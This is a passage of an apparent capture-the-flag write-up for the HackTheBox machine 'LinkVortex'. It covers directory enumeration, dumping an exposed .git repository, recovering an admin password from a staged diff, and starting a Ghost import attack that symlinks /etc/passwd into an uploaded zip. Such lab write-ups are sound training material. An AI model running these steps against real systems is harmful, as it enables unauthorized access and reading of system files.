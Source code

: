 - **Found exposed .git directory**
  - Command: `gobuster dir -w ~/cybersec/pentesting/wordlists/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb
`
  - Found: /.git/

- **Use Git Dumper**
    - From `https://github.com/arthaud/git-dumper`
    - Command `python3 git_dumper.py http://dev.linkvortex.htb/.git/ ~/github/HTB/machines/linkvortex/gitdump`
    - Check git status 
        ```
        cd gitdump/
        git status

        ```
        - Output: 
          ```
          Not currently on any branch.
          Changes to be committed:
          (use "git restore --staged <file>..." to unstage)
          new file: Dockerfile.ghost
          modified: ghost/core/test/regression/api/admin/authentication.test.js
          ```

    - Check git diff `git diff --staged`
        - Output: 
          ```
          it('complete setup', async function () {
          const email = 'test@example.com';
          - const password = 'thisissupersafe';
          + const password = 'OctopiFociPilfer45';
          const requestMock = nock('https://api.github.com')
          .get('/repos/tryghost/dawn/zipball')
          ```

- **Log into Ghost admin**
  - Visit http://linkvortex.htb/ghost
  - Log in with:
    - Email: admin@linkvortex.htb
    - Password: OctopiFociPilfer45
  

---

## 3. Vulnerability Discovery

- **Create a directory to emulate Ghost path structure**
  - Command `mkdir -p exploit/content/images/
- **Create a symlink to a file for testing**
  - Command `ln -s /etc/passwd exploit/content/images/test-file.png`
  - Zip it 
    `zip -r -y exploit.zip exploit/`
- **Import the zip file to web**
  - Go to Settings > Labs > Import Content
